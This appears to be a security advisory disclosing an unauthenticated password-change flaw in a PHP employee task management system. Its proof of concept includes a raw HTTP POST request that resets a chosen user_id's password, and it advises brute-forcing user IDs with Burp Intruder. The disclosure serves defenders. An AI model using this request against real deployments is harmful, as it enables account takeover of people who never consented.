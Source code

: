 # Employee Task Management System - Broken Authentication leads to compromise of all application accounts by changing the password

### Date: 
> 17 February 2023
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Employee Task Management System](https://www.sourcecodester.com/php/15383/employee-task-management-system-phppdo-free-source-code.html)
### Version:
> v 1.0
### Broken Authentication:
> Broken authentication occurs when the authentication mechanisms in a web application are not implemented correctly, allowing an attacker to bypass them and gain unauthorized access to the application's features and resources. If an attacker is able to exploit broken authentication and gain access to a user's account, they may be able to change the account password, effectively locking the legitimate user out of the system. This is particularly dangerous because if the attacker can compromise one user account, they may be able to use that account to gain access to other accounts and escalate their privileges, potentially compromising the entire system.
### Affected Page:
> changePasswordForEmployee.php

> On this page, application isn't verifying the authentication/authorization mechanism. Due to that, all the parameters are vulnerable to broken authentication.

### Description:
> Broken Authentication allows unauthenticated remote attacker to change password of all application users

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: changePasswordForEmployee.php
2. Type any random password which needs to update against any id and submit
3. Intercept that request through Burp Suite
4. Request:
```
POST /etms/changePasswordForEmployee.php HTTP/1.1
Host: localhost
Content-Length: 277
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/etms/changePasswordForEmployee.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntknjcf821q2u3h85c14qo1r91
Connection: close

user_id=%3Cbr+%2F%3E%0D%0A%3Cb%3EWarning%3C%2Fb%3E%3A++Undefined+variable+%24user_id+in+%3Cb%3EC%3A%5Cxampp%5Chtdocs%5Cetms%5CchangePasswordForEmployee.php%3C%2Fb%3E+on+line+%3Cb%3E34%3C%2Fb%3E%3Cbr+%2F%3E%0D%0A&password=admin%23123&re_password=admin%23123&change_password_btn=
```
5. because the "user_id" parameter is not set due to missing authentication, so we need to set the user_id manually. By default user_id 1 is for admin and we can use intruder to bruteforce this step with incremental value. Whenever the server will find the correct user_id, it will change the password and log in to the application.
6. Successful exploit screenshots are below (without cookie parameter)

![image](https://user-images.githubusercontent.com/123810418/219798138-747388d7-378b-4d1b-9862-1356e52a0c72.png)

![image](https://user-images.githubusercontent.com/123810418/219798264-f04bcda9-a833-4010-a40b-076a38199938.png)

![image](https://user-images.githubusercontent.com/123810418/219798299-5ba92752-d218-4aaa-b123-5258df37ce38.png)

7. Vulnerable Code Snippets:

![image](https://user-images.githubusercontent.com/123810418/219799518-50d3eb1a-0091-4229-b7d0-7621d79cc168.png)

![image](https://user-images.githubusercontent.com/123810418/219799657-42b9a71c-539c-4e91-bec8-0d7fd40cb3ed.png)

### Recommendation:
> Whoever uses this CMS, should update the authentication and authorization mechanism on top of the changePasswordForEmployee.php as per their requirement to avoid a Broken Authentication attack:
